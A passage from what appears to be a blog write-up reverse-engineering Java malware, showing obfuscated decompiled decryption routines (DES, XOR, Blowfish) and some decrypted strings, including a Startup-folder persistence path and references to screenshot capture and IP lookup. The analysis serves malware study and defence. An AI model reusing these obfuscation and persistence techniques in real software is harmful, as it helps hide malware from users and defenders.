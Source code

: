 ```java
         SecretKeySpec llllllllllllllllllIlIIllIIlllIIl = new SecretKeySpec(MessageDigest.getInstance("MD5").digest(llllllllllllllllllIlIIllIIllIlIl.getBytes(StandardCharsets.UTF_8)), "Blowfish");
         int llllllllllllllllllIlIIllIIllIIIl = Cipher.getInstance("Blowfish");
         llllllllllllllllllIlIIllIIllIIIl.init(lIlIIIlllIll[2], llllllllllllllllllIlIIllIIlllIIl);
         return new String(llllllllllllllllllIlIIllIIllIIIl.doFinal(Base64.getDecoder().decode(llllllllllllllllllIlIIllIIllIlII.getBytes(StandardCharsets.UTF_8))), StandardCharsets.UTF_8);
      } catch (Exception var4) {
         var4.printStackTrace();
         return null;
      }
   }
```
This function is similar to the one that uses DES, but it uses Blowfish instead. The key is again hashed with MD5 before being used in the cipher.

Now that I have the decryption functions figured out, reversing the obfuscated strings became straightforward. I renamed the functions to make them easier to read during the analysis. Much better than trying to remember what lIIIlllIllI was supposed to do every time. Here is what it looked like after a bit of cleanup.
<figure>
	<img src="/assets/img/JavaBasedMalware/deobCaptureScreenshot_GetIP_8.png" alt=""> 
	<figcaption>De-obfuscated Capture Screenshot and Get IP Address method</figcaption>
</figure>
```java
lIIIllllIlll[lIlIIIlllIll[0]] = DESEncryption("S8+Gx1mBYug=", "oYgzM");
APPDATA

lIIIllllIlll[lIlIIIlllIll[1]] = XOREncryption("HxUoIicsKy4nIR8PKC8xLC8yHQY3OTM1dQ49LzQJEyouJiciNTIdBjc5MzUgMwQSMTosNm8kLSY=", "CXAAU");
\Microsoft\Windows\Start Menu\Programs\Startup\Spoon.exe

lIIIllllIlll[lIlIIIlllIll[8]] = BlowFishEncryption("VV7IsaU2UXWmKxxGOg/h2a3Hc27ow4CyKpSxhlLIpM7VDNqFr80q2pZK2Vz7ErJx", "jVLzl");
```